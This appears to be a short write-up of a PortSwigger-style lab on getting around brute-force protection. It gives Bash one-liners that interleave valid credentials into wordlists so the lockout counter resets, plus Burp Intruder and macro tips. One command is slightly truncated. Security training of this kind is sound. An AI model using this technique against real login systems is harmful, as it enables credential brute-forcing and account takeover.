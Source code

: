 # Lab Description

# Lab Solution


### Edit the username and password wordlists in terminal

```
=0; while read -r line; do echo "carlos" | tee -a carlos-wiener-userlist.txt; x=$((x + 1)); if [ $x -eq 2 ]; then echo "wiener" | tee -a carlos-wiener-userlist.txt; x=0; fi; done < passwords.txt
```

Bash one liner, copying from the list passwords.txt and at every third try, inputting name `wiener` password, which we have valid credentials.

```
x=0; while read -r line; do echo "$line" | tee -a passwords-with-peter.txt; x=$((x + 1)); if [ $x -eq 2 ]; then echo "peter" | tee -a passwords-with-peter.txt; x=0; fi; done < passwords.txt
```

Just run the intruder, it will not log in with correct credentials every 3rd time, resetting the counter.

It has to be only one request at time, otherwise may happens that different threats hit the server out of order and it will just block the IP.

Inspiration:

https://www.youtube.com/watch?v=FzQcu9LYd_k

### With Macro

Macro will automatically send another request


TEST: If the requests still need to be just one at time

Inspiration from:
https://portswigger.net/burp/documentation/desktop/settings/sessions/macros
https://www.youtube.com/watch?v=J8Ykn4Pa2bc
